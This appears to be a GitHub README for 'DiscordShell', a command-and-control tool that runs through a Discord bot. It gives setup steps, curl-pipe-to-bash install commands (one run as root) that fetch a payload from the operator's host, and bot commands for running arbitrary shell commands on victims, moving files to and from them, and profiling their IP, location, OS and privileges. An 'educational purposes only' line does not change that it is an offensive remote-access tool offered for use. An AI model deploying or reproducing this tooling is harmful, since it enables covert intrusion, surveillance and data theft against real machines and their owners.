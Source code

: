 # DiscordShell

C2 hosted on Discord via use of the Discord Python API. Created by [Sid Lacy](https://github.com/lacysw) and [Nathan Burns](https://github.com/AlbinoGazelle).

The files contained in this repository are intended for educational purposes only. Malicious use of code hosted within this repository is not permitted.

## Screenshots

Instant notifications on client join.
![Instant notifications on client join.](/img/clientJoin.png)

Easy access to basic client information.
![Easy access to basic host information.](/img/clientHosts.png)

Client latency information request.
![Support for executing arbitraty non-interactive commands.](/img/clientPing.png)

[!] SHELL: Support for executing any arbitraty non-interactive commands.
![SHELL: Support for executing any arbitraty non-interactive commands.](/img/clientCommand.png)

Support for uploading files under 4MB to the client (Discord API limitations).
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientUpload.png)

Support for downloading files under 4MB from the client (Discord API limitations).
![Support for uploading files under 4MB to the client (Discord API limitations).](/img/clientDownload.png)

At-will client deauthorization.
![Instant notifications on client join.](/img/clientKill.png)

## Setup

### Discord

1. Follow [these instructions](https://discordpy.readthedocs.io/en/stable/discord.html).
2. Save the bot token for later use.
3. Create a C2 channel in your discord, this is where the bot will accept commands. Copy this channels ID and save it for later.
4. Copy your user ID and save it for later use.

### Host

1. Edit the variables `apitoken`, `debug`, and `allowed_users` inside `shell.py` with the information you saved earlier.
2. Run `build.sh` to yield an executable.
3. Edit the variables `$srcip` and `$srcport` inside of `install.sh` to contain the IP address and port of the server hosting the shell.
4. Host the executable (`shell`) and `installer.sh` at `$scrip:$scrport`.

### Client

 - Execute `curl -s  http://$srcip:$srcport/installer.sh | bash` for a standard connection.
 - Execute `curl -s  http://$srcip:$srcport/installer.sh | sudo bash` for a root connection.

## Supported Features & Syntax

All supported commands are prefixed with `?`.
 - `?hosts`: Request the following information for every active client:
    - IP address; click to navigate instantly to whois.domaintools.com/${IP}
    - Alpha-2 country code of residence
    - Estimated location coordinates; click to instantly navigate to google.com/maps?q=${latitude},${longitude}
    - Detected operating system
    - EUID (permissions)
    - Username and hostname
    - The service provider of the internet connection
 - `?cmd ${client_id} ${command}`: Executes a command on a specified client. Command result will be returned in a discord message.
    - Example: `?cmd abcd1234 whoami`
    - Example: `?cmd abcd1234 ls -la`
 - `?download ${client_id} ${path}`: Download specified file from client. Data will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?download abcd1234 file.txt`
    - Example: `?download abcd1234 /home/user/picture.png`
 - `?upload ${client_id} ${path}`: Upload a file to a specified client. Status message will be returned in a discord message, has a limitation of 4MB in non-boosted servers.
    - Example: `?upload abcd1234 resource.sql`
    - Example: `?upload abcd1234 /usr/sbin/function.sh`
 - `?kill ${client_id}`: Terminate a specified client. Status message will be returned in a discord message.
    - Example: `?kill abcd1234`


## Plans

 - Better error handling.
 - Comprehensive logging.